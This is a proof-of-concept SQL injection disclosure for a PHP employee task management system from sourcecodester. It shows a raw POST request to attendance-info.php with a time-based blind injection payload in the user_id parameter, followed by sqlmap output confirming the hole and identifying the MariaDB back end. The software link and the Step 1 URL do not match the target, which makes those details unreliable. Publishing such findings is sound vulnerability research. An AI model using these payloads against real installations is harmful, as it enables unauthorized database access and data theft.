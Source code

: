 # Exploit Title: employee task management system - SQLi

### Date: 
> March 15th, 2024

### Author: 
> tht1997
### Vendor Homepage:
> https://www.sourcecodester.com

### Software Link:
> [employee task management system](https://www.sourcecodester.com/php/15371/auto-dealer-management-system-phpoop-free-source-code.html)
### Version:
> v 1.0
### URL:
> [/taskmatic/attendance-info.php](taskmatic/attendance-info.php)
### Proof of Concept:
Review source code
![SQL](https://github.com/tht1997/WhiteBox/blob/main/sourcecodester/attendance-info.png?raw=true)
\
Step 1. Go to URL edit: http://localhost/taskmatic/update-admin.php?admin_id=1
\
Step 2. Run with sqlmap

```
POST /taskmatic/attendance-info.php HTTP/1.1
Content-Length: 193
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Origin: http://localhost
Referer: http://localhost/taskmatic/attendance-info.php
Cookie: PHPSESSID=au6ifo1ssaop7ilk8c4f09pj2j
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Connection: close

user_id=1'%20AND%20(SELECT%204052%20FROM%20(SELECT(SLEEP(10-(IF(VERSION()%20LIKE%200x254d61726961444225%2c0%2c5)))))gMfo)%20AND%20'uCzC'%3d'uCzC&add_punch_in=
```

Step 3. sqlmap result

```
[20:19:33] [INFO] POST parameter 'user_id' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[20:19:36] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[20:19:36] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[20:19:44] [INFO] checking if the injection point on POST parameter 'user_id' is a false positive
[20:20:37] [WARNING] it appears that the character '>' is filtered by the back-end server. You are strongly advised to rerun with the '--tamper=between'
POST parameter 'user_id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 64 HTTP(s) requests:
---
Parameter: user_id (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: user_id=1' AND (SELECT 5903 FROM (SELECT(SLEEP(5)))hTDS) AND 'gCuQ'='gCuQ&add_punch_in=
---
[20:21:13] [INFO] the back-end DBMS is MySQL
[20:21:13] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
web application technology: Apache 2.4.54, PHP 7.4.30
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
```
